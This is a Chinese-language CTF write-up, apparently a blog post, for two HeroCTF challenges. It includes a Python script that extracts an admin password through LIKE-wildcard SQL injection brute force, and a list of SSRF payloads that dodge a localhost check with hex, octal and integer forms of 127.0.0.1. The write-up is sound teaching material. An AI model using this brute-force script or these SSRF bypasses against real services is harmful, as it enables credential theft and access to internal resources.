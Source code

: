# PwnQL #2
- 脚本

这道题让得到admin的密码

那就(`爆破字符+%通配一下`)，如果那个字符正确则返回上题flag

脚本：
```python
import requests
from string import digits, ascii_letters

flag = ''
characters = [i for i in digits + ascii_letters] + \
             ['\_', '!', '#', '@', '$', '}', '{', '|', '^', '&', '*', '(', ')', '-', '+', '=', '[', ']', '<', '>', '?',
              '`', ',', '.', 'END']

while flag == '' or i != 'END':
    for i in characters:
        flag_candidate = flag + i
        payload = {
            "username": 'admin',
            "password": flag_candidate + '%'
        }
        r = requests.post('http://chall1.heroctf.fr:8080/index.php', data=payload)
        if b'Hero{pwnQL_b4sic_0ne_129835}' in r.content:
            flag = flag + i
            print(flag)
            break

print('Flag: Hero{{{}}}'.format(flag.replace('\\', '')))

```


---
# 0xSSRF
- 考点：SSRF基础ip绕过

这题看完wp，非常生气，感觉有点吃亏说不出

![](https://img-blog.csdnimg.cn/20210427195655726.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
进入网址，点击Get flag

![](https://img-blog.csdnimg.cn/20210427195725852.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
提示不是本地ip

那就好说啊，把本地ip换一种形式不就行了吗

```
十六进制
  url=http://0x7F.0.0.1/flag.php

八进制
  url=http://0177.0.0.1/flag.php

10 进制整数格式
  url=http://2130706433/flag.php

16 进制整数格式，还是上面那个网站转换记得前缀0x
  url=http://0x7F000001/flag.php

还有一种特殊的省略模式
```